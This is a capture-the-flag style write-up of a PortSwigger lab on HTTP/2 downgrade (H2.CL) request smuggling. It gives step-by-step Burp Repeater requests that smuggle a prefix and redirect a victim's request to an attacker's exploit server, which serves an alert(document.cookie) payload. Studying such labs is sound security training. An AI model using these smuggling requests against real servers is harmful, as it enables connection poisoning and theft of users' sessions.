 # H2.CL request smuggling

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling) is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length. 

## Reproduction and proof of concept

1. From the Repeater menu, enable the **Allow HTTP/2 ALPN override** option and disable the **Update Content-Length** option.
2. Using Burp Repeater, try smuggling an arbitrary prefix in the body of an HTTP/2 request by including a `Content-Length: 0` header as follows. Remember to expand the Inspector's Request Attributes section and change the protocol to HTTP/2 before sending the request.

```text
POST / HTTP/2
Host: lab-id.web-security-academy.net
Content-Length: 0

SMUGGLED
```

3. Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
4. Using Burp Repeater, notice that if you send a request for `GET /resources`, you are redirected to https://lab-id.web-security-academy.net/resources/.
5. Create the following request to smuggle the start of a request for `/resources`, along with an arbitrary Host header:

```text
POST / HTTP/2
Host: lab-id.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: foo
Content-Length: 5

x=1
```

6. Send the request a few times. Notice that smuggling this prefix past the front-end allows you to redirect the subsequent request on the connection to an arbitrary host.
7. Go to the exploit server and change the file path to `/resources`. In the body, enter the payload `alert(document.cookie)`, then store the exploit.
8. In Burp Repeater, edit your malicious request so that the Host header points to your exploit server:

```text
POST / HTTP/2
Host: lab-id.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
Content-Length: 5

x=1
```
    
9. Send the request a few times and confirm that you receive a redirect to the exploit server.
10. Resend the request and wait for 10 seconds or so.
11. Go to the exploit server and check the access log. If you see a `GET /resources/` request from the victim, this indicates that your request smuggling attack was successful. Otherwise, check that there are no issues with your attack request and try again.
12. Once you have confirmed that you can cause the victim to be redirected to the exploit server, repeat the attack until the lab solves. This may take several attempts because you need to time your attack so that it poisons the connection immediately before the victim's browser attempts to import a JavaScript resource. Otherwise, although their browser will load your malicious JavaScript, it won't execute it.

## Exploitability

An attacker will need to perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling `alert(document.cookie)`. The victim user accesses the home page every 10 seconds. 

_Note: This lab supports HTTP/2 but doesn't advertise this via ALPN. To send HTTP/2 requests using Burp Repeater, you need to enable the **Allow HTTP/2 ALPN override** option and manually change the protocol to HTTP/2 using the Inspector. Please note that this feature is only available from Burp Suite Professional / Community 2021.9.1._
